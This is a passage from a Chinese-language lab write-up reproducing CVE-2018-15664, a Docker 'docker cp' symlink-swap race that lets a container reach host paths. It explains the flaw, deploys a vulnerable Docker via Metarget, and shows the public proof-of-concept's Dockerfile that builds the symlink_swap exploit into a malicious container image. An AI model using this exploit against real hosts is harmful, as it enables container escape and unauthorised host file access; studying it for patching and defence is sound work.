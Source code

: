 ## 2. 漏洞原理  
  
  
对于CVE-2018-15664来说，Docker会将docker cp 进行文件复制的行为分为先后两个部分：路径检查和命令解析。当用户执行docker cp命令后，Docker守护进程收到这个请求，首先会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则先在容器内部将其解析成路径字符串，之后再进行命令的解析。  
  
   
  
该流程看似没毛病，但要考虑到容器内部环境是不可控的。如果在docker守护进程检查复制路径时，攻击者可以利用中间的间隙，先在这里放置一个非符号链接的常规文件或目录，检查结束后，攻击者赶在Docker守护进程使用这个路径之前将其替换为一个符号链接，那么这个符号链接就会于被打开时在宿主机上解析，从而导致目录穿越。  
  
## 3.漏洞复现  
  
  
1. 漏洞环境使用开源的项目Metarget进行搭建，首先确保主机已经成功安装了docker之后再部署漏洞环境。  
```
#安装Metarget
git clone https://github.com/brant-ruan/metarget.git
cd metarget/
pip install -r requirements.txt
 
#一键部署漏洞环境
./metarget cnv install cve-2018-15664
 
#完成后查看docker版本
root@ubuntu:/home# docker --version
Docker version 18.03.1-ce, build 9ee9f40
```  
  
  
  
2.漏洞靶场搭建完毕后，我们使用漏洞发现者Aleksa Sarai提供的poc来验证一下。下载并解压Poc后，Poc的目录结构如下所示：  
```
.
├── build
│   ├── Dockerfile
│   └── symlink_swap.c
├── run_read.sh
└── run_write.sh
```  
  
  
  
其中Dockerfile的内容如下，它主要分为两个部分，首先是生成一个容器，并在容器内编译构建漏洞利用程序symlink_swap，并将其放到容器的根目录之下，二是在根目录下创建一个w00t_w00t_im_a_flag文件，内容为FAILED -- INSIDE CONTAINER PATH。  
容器启动后执行的程序（Entrypoint）即为/symlink_swap。  
```
# Build the binary.
FROM opensuse/leap
RUN zypper in -y gcc glibc-devel-static
RUN mkdir /builddir
COPY symlink_swap.c /builddir/symlink_swap.c
RUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c
 
# Set up our malicious rootfs.
FROM opensuse/leap
ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag
ARG SYMSWAP_PATH=/totally_safe_path
RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"
COPY --from=0 /builddir/symlink_swap /symlink_swap
ENTRYPOINT ["/symlink_swap"]
```  
  